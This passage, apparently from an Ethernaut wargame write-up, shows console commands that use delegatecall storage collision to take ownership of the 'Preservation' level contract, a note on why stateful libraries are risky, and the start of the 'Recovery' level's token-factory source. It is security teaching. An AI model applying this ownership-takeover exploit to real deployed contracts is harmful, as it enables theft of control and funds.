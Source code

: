 ```javascript
// deploy Attack contract and use its address
> await contract.setFirstTime("0x271016E1fb59FeD5E01F1D42AF81153dD5E942ed")

// recall
> await contract.setFirstTime("0")

// we get owner !
> await contract.owner()
"0x1cee0B9d62488Fe1C57826245C1F1298B6637eC2"
```

> As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract "libraries" that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.



---

## 17 - Recovery

---

> **TL;DR**

A contract creator has built a very simple token factory contract.  Anyone can create new tokens with ease. After deploying the first token  contract, the creator sent `0.5` ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the `0.5` ether from the lost contract address.

```javascript
pragma solidity ^0.5.0;

import 'openzeppelin-solidity/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  function() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
```